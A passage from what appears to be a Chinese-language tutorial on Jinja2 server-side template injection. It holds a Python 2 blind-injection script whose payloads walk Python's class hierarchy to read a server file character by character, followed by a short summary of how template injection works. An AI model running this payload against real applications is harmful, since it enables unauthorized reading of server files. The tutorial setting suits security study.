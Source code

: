     password  = ''
    s = r'0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!"$'()*+,-./:;<=>?@[\]^`{|}~'"_%'
    
    for i in xrange(0,100):
        for c in s:
            payload = '{% if "".__class__.__mro__[2].__subclasses__()[40]("/tmp/test").read()['+str(i)+':'+str(i+1)+'] == "'+c+'" %}~p0~{% endif %}'
            if check(payload):
                password += c
                break
        print password
    ```

## 总结

注入其实感觉都是一个原理，利用服务器的环境语法，来构造恶意语句，实现注入。本文以jinja2介绍到此，后续可能会补上不同框架的常见漏洞(如果没有就是鸽了，同样欢迎你们补上这个缺口，笑)

